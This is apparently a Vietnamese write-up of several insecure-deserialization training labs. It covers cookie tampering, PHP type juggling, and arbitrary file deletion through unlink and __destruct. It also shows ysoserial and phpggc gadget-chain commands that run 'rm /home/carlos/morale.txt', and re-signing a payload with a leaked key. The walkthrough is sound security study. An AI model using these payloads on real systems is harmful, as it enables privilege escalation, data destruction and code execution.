# __Lab: Modifying serialized objects__

## Logic lỗ hổng của bài này sẽ nằm ở việc backend đang sử dụng các thông tin được mã hóa để set cho cookie và khi attacker sửa đổi thông tin của cookie server đọc và trục tiếp thực hiện.

Access lab, đăng nhập bằng account được cung cấp wiener:peter. Khi này nhận thấy req sau khi đưang nhập cookie sẽ có dạng mã hóa base64



Send to repeater, và thử decode cookie thì sẽ nhận thấy nó là 1 cấu trúc chuỗi Object được mã hóa.



Sửa giá trị từ `b:0` thành `b:1` để allow quyền admin ecode lại về base64 thay vào cookie cũ và send để server cháp nhận.



Vì mỗi khi sử dụng cho 1 endpoit thì cookie sẽ reset và trả về cookie ban đầu chưa được nâng quyền. Sử trục tiếp trong repeater để xóa account carlos và hoàn thành bài lab.


# __Lab: Modifying serialized data types__

## Logic lỗ hổng Sử dụng PHP <8 ép chuỗi token gốc (bắt đầu bằng chữ) về số nguyên 0. Phép so sánh thành 0 == 0, luôn trả về true, bypass toàn bộ bước kiểm tra mật khẩu/token của admin

Access lab, đăng nhập bằng account được cung cấp wiener:peter. Khi này nhận thấy req sau khi đưang nhập cookie sẽ có dạng mã hóa base64



Send to repeater, và thử decode cookie thì sẽ nhận thấy nó là 1 cấu trúc chuỗi Object được mã hóa.



Thử đổi giá trị `access_token` thành `i:0` và send.



Khi này acccoun wiener đượ nâng quyền admin. Điều này chứng tỏ seerver đâng chạy trên 1 phiên bản php cũ thường sẽ là những phiên bản <8.



Sử đổi username thành `administrator` và tiến hành xóa account carlos từ repeater.






# __Lab: Using application functionality to exploit insecure deserialization__

## Logic lỗ hổng backend lấy thẳng giá trị avatar_link từ cookie đưa vào hàm xóa file unlink($avatar_link). k kiểm tra thư mục, đuôi file, quyền sở hữu.

Access lab, đăng nhập bằng account được cung cấp wiener:peter. Khi này nhận thấy req sau khi đưang nhập cookie sẽ có dạng mã hóa base64



Send to repeater, và thử decode cookie thì sẽ nhận thấy nó là 1 cấu trúc chuỗi Object được mã hóa.



Khi này trong Objevt có 3 path trong đấy có kèm thêm `avatar_link`. Nhận thấy rằng khi 1 account bị xóa server sẽ xóa luôn avatar được trỏ đến qua `avatarr_link`. Nếu như server k ktra mà xóa bất cứ đường dẫn nào thì sao.

Bật Intruder, delete account wiener hiện tại. ở Intruder sửa đổi đường dẫn trỏ về `/home/carlos/morale.txt`



Forward để xóa. Khi này server sẽ trỏ đến thu muc được sửa và xóa file `morale.txt` và hoàn thành bài lab.




# __Lab: Arbitrary object injection in PHP__

## Logic lỗ hổng sử dụng hàm magic `_destruct` để xoa file tùy ý. Để lộ, k xóa Editor Backup File

Access lab, đăng nhập bằng account được cung cấp wiener:peter. Khi này nhận thấy req sau khi đưang nhập cookie sẽ có dạng mã hóa base64



Kiêm tra source page thì phát hiện được 1 class file. Thử đi theo nhưng page trả về màn trắng mặc dù vẫn trả về Status 200.



Trong 1 số trường hợp bằng cách thêm dấu `~` vào cuối thì có thể được source 



```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

Nhìn vào source có thể thấy nhanh rằng ở hàm `_destruct` bất cứ 1 đường dẫn nào được lưu vào `lock_file_path` đều sẽ bị un link. Nên sửa đổi cookie thành 1 Object vs Payload như sau:

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Sử dụng Object `CustomTemplate` trỏ đường dẫn chứ file `morale.txt` về `lock_file_path` và send. Khi này file sẽ bị xóa và hoàn thành bài lab.




# __Lab: Exploiting Java deserialization with Apache Commons__

## Logic lỗ hổng import thư viện `commons-collections4` thư viện này có các class cho phép dùng kỹ thuật Java Reflection để gọi hàm hệ thống

Access lab, đăng nhập bằng account được cung cấp wiener:peter.



Nhận thấy rằng các kí tự ban đầu của cookie là `r0A` đây là dấu hiệu của 1 server chạy JAVA và có tỉ lệ bị dính `Java Insecure Deserialization`

Cài đặt và sử dungj `ysoserial`. Set series và sử dụng Payload `rm/home/carlos/morale.txt`

```java
java \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
  --add-opens=java.base/java.net=ALL-UNNAMED \
  --add-opens=java.base/java.util=ALL-UNNAMED \
  -jar ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0
```

Sử dụng command
```
cmd /c "C:\tools\ysoserial.bat CommonsCollections4 ""rm /home/carlos/morale.txt"" > %TEMP%\p.bin"
[Convert]::ToBase64String([IO.File]::ReadAllBytes("$env:TEMP\p.bin")) | Set-Clipboard
```

Khi này payload `rm /home/carlos/morale.txt` sẽ được ysoserial lưu trực tiếp vào bộ nhớ tạm. Thay thế cho cookie hiện tại và send để hoàn thành bài lab.




# __Lab: Exploiting PHP deserialization with a pre-built gadget chain__

## 

Access lab, đăng nhập bằng account được cung cấp wiener:peter. Kiểm tra source page nhận thấy có 1 class file trỏ về các giá trị và phiên bản sử dụng.





Thấy được các giá trị như SECRET_KEY sử dụng tool phpggc để sinh ra giá trị có chứ payload `rm /home/carlos/morale.txt`



Vì cookie của bài có dạng JSON có chứa chữ ký số `hmac`.Lấy SECRET_KEY để viết lại chữ kí bằng command:
```
C:\tools\php\php.exe -r "echo hash_hmac('sha1', 'Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319', 'b8fxgpkfoejkfwlfrc5dcs9n5nxjwp4y');"
```




# __Lab: Exploiting Ruby deserialization using a documented gadget chain__

## Logic lỗ hổng Hàm Marshal.load() của Ruby không an toàn khi xử lý dữ liệu từ client. Lợi dụng các class mặc định của Ruby Core ép gọi phương thức Kernel.system("rm /home/carlos/morale.txt")

Access lab, đăng nhập bằng account được cung cấp wiener:peter. Nhận thấy giá trị cookie đang được set dưới dạng Ruby dựa trên các kí tự ban đầu được sử dụng như `BAh..`



Sử dụng cái line script online có ở các trang như `devcraft.io`
